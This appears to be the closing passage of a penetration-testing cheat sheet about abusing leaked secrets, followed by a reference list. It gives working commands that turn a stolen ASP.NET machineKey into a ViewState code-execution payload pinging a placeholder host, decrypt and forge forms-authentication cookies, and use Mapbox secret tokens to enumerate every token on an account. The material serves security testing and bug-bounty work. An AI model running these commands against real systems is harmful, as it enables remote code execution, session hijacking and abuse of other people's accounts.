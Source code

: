 PS>$ viewgen --webconfig web.config -m CA0B0334 -c "ping yourdomain.tld"
```
#### Edit cookies with the machine key

*If you have the machineKey but the viewstate is disabled.

**\ASP.net Forms Authentication Cookies : https://github.com/liquidsec/aspnetCryptTools

```powershell
# decrypt cookie
$ AspDotNetWrapper.exe --keypath C:\MachineKey.txt --cookie XXXXXXX_XXXXX-XXXXX --decrypt --purpose=owin.cookie --valalgo=hmacsha512 --decalgo=aes

# encrypt cookie (edit Decrypted.txt)
$ AspDotNetWrapper.exe --decryptDataFilePath C:\DecryptedText.txt
```

### Mapbox API Token
A Mapbox API Token is a JSON Web Token (JWT). If the header of the JWT is `sk`, jackpot. If it's `pk` or `tk`, it's not worth your time.
```
#Check token validity
curl "https://api.mapbox.com/tokens/v2?access_token=YOUR_MAPBOX_ACCESS_TOKEN"

#Get list of all tokens associated with an account. (only works if the token is a Secret Token (sk), and has the appropiate scope)
curl "https://api.mapbox.com/tokens/v2/MAPBOX_USERNAME_HERE?access_token=YOUR_MAPBOX_ACCESS_TOKEN"
```

## References

* [Finding Hidden API Keys & How to use them - Sumit Jain - August 24, 2019](https://medium.com/@sumitcfe/finding-hidden-api-keys-how-to-use-them-11b1e5d0f01d)
* [Private API key leakage due to lack of access control - yox - August 8, 2018](https://hackerone.com/reports/376060)
* [Project Blacklist3r - November 23, 2018 - @notsosecure](https://www.notsosecure.com/project-blacklist3r/)
* [Saying Goodbye to my Favorite 5 Minute P1 - Allyson O'Malley - January 6, 2020](https://www.allysonomalley.com/2020/01/06/saying-goodbye-to-my-favorite-5-minute-p1/)
* [Mapbox API Token Documentation](https://docs.mapbox.com/help/troubleshooting/how-to-use-mapbox-securely/)

